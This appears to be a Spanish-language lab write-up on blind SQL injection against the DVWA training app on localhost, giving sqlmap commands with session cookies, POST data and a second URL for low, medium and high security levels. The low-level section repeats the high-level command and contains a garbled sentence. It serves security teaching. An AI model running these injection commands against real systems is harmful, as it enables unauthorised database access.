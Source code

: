 # SQLi Blind

SQL blind es una variante de SQLi en la que el atacante no puede obtener el resultado de la consulta inyectada. Esto se debe a que la aplicación no muestra el resultado de la consulta, sino que lo devuelve a través de una ventana emergente o a través de una URL secundaria.

Se ha procedido de manera prácticamente análoga a la tarea de [SQLi](/SQLI/SQLi.md) normal. 
La única diferencia en la metodología de ataque está en el campo en el que se inyecta el código malicioso, el código presenta las mismas vulnerabilidades que en SQLi.

## Bajo

Se ha llevado a cabo la misma metodología de ataque, utilizando la con el parámetro `--dbs` Para obtener la versión del SGBD de la aplicación vulnerable basta con usar la herramienta SQLmap con una cookie interceptada y añadir el parámetro inyectable en la query de la URL:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/cookie-input.php" --cookie "id=15; PHPSESSID=<session>; security=high" --second-url "http://localhost/DVWA/vulnerabilities/sqli_blind" --batch
```

## Medio

En este caso la inyección se realiza a través del formulario por POST. Se obtiene el mismo resultado:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/#" --cookie "PHPSESSID=s0i2frqjujok0qsdibcem15b3s; security=medium" --data "id=1&Submit=Submit" --batch --dbs
```

![blind_med](/SQLI/assets/sqli_blind_med.png)

## Alto

En este caso, el parámetro inyectable se encuentra en la propia cookie, por lo que hay que incluirlo en la petición maliciosa. Además, como se abre una ventana emergente y el resultado se obtiene a través de otra ruta, hay que incluir la URL secundaria para capturar los resultados de la inyección.

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/cookie-input.php" --cookie "id=15; PHPSESSID=<session>; security=high" --second-url "http://localhost/DVWA/vulnerabilities/sqli_blind" --batch
```

![blind_hi](/SQLI/assets/sqli_blind_hi.png)
